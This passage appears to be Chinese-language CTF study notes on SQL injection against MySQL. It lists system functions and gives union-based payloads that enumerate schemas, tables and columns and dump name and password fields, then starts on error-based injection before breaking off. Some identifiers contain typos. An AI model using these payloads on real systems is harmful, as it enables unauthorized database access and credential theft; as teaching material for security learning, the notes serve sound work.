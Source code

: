     + 系统函数：
        + user() ：当前使用者的用户名
        + database()：当前数据库名
        + version()：数据库版本
        + datadir：读取数据库的绝对路径
        + @@vasedir：mysql安装路径
        + @@version_compile_os：操作系统
        + concat()：连接一个或者多个字符串
        + group_concat()：连接一个组的所有字符串，并以逗号分隔每一条数据

+ [分类](http://blog.51cto.com/wt7315/1828167)：
    + 基于联合查询
        + UNION:合并两个或多个SELECT语句的结果集，并消去表中重复的行。UNION 内部的 SELECT 语句必须拥有相同数量的列，列也必须拥有相似的数据类型。
        + `and 1=2 union select 1,version(),database()`可以爆出当前使用的版本和数据库名
        + `and 1=2 union select 1,2,schema_name from information_schema.schemata limit 1,1 %23爆出数据库名，依次使用limit2，1往下爆库名`
        + `and 1=2 union select 1,2,group_concat(schema_name) from information_schema.schemata %23`

        + 假设有flag库：
            + `and 1=2 union select 1,2,group_concat(table_name) from information_schema.tables where schema_name=’flag’` 爆出flag库下的所有的表，假设其中有flagtable表
            + `and 1=2 union select 1,2,group_concat(column_name) from information_schema.columns where table_name =’flagtale’`爆出flagtable下的所有字段，假设有name和password字段
            + `and 1=2 union select 1,2,group_concat(name,password) from flag.flagtable` 爆出flag下的flagtable表的name和password的内容

    + [基于错误回显](http://blog.51cto.com/wt7315/1891458)
        + 用到的函数：
            + count():统计元祖的个数
             <img src = "/images/posts/2018/03/web/sql/4.png" height="100" width="400">
            + rand():0~1的随机数
             <img src = "/images/posts/2018/03/web/sql/5.png" height="100" width="250">
            + floor():向下取整,select floor(rand()*2);的结果为0或者1